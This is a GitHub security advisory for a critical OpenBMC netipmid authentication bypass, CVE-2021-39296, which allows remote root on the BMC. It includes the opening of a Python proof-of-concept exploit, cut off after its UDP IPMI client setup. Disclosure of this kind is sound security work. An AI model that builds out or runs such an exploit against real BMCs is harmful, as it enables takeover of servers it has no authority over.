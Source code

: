 ```yaml
---
title: 'OpenBMC: remote code execution in netipmid'
published: '2021-09-02T17:27:23Z'
severity: Critical
ghsa_id: GHSA-gg9x-v835-m48q
cve_id: CVE-2021-39296
weaknesses: []
products:
- ecosystem: n/a
  package_name: OpenBMC
  affected_versions: '2.9'
  patched_versions: series ending in ecc8efad10bc2101a434a0c1fbd253eeaa1a3a99
cvss: null
credits:
- github_user_id: ya-mouse
  name: Anton D. Kachalov
  avatar: https://avatars.githubusercontent.com/u/1886767?s=40&v=4
---
```


### Summary
CVE-2021-39296 - Issue affecting netipmid (IPMI lan+) interface. An attacker might craft IPMI messages to gain root access to the BMC bypassing authentication.
CVE-2021-39295 - A related vulnerability can also be used for denial of service.

### Severity
**CRITICAL** - [CVSSv3 10](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H)

### Proof of Concept
```
#!/usr/bin/env python3
import os
import getopt
import sys
import socket
import time
from struct import pack, unpack


class IpmiUdpClient:
    def __init__(self, host, port=623):
        self._host = host
        self._port = port


    def connect(self):
        self._sock = socket.socket(socket.AF_INET6, socket.SOCK_DGRAM)
        self._sock.settimeout(10.0)

        for res in socket.getaddrinfo(self._host,
                                      self._port,
                                      0,
                                      socket.SOCK_DGRAM):
            if res[0] == socket.AF_INET6 and False:
                i = res[4][0].find(':ffff:')
                if i != -1:
                    addr = res[4][0][i+8:].split(':')
                    addr = [int(x, base=16) for x in addr]
                    self._sockaddr = ('::ffff:%d.%d.%d.%d' % (addr[0] >> 8, addr[0] & 0xff, addr[1] >> 8, addr[1] & 0xff),
                                      res[4][1], res[4][2], res[4][3])
```